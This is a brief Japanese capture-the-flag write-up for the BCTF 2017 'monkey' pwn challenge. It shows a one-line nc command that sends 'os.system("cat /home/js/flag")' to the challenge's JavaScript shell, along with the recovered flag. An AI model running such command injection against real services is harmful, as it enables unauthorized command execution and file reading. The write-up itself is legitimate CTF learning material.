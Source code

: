 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2017/bctf-2017-monkey/
  - /blog/2017/04/22/bctf-2017-monkey/
date: "2017-04-22T01:14:11+09:00"
tags: [ "ctf", "writeup", "bctf", "pwn", "javascript" ]
---
```


# BCTF 2017: monkey

## solution

諸々のファイルが渡されるが、ぐぐると`os.system`があると分かるので終わり。

```
$ echo 'os.system("cat /home/js/flag")' | nc 202.112.51.248 2333
js> os.system("cat /home/js/flag")
bctf{319c1b47f786c7b99a757da74fd38408}
js> 0
```
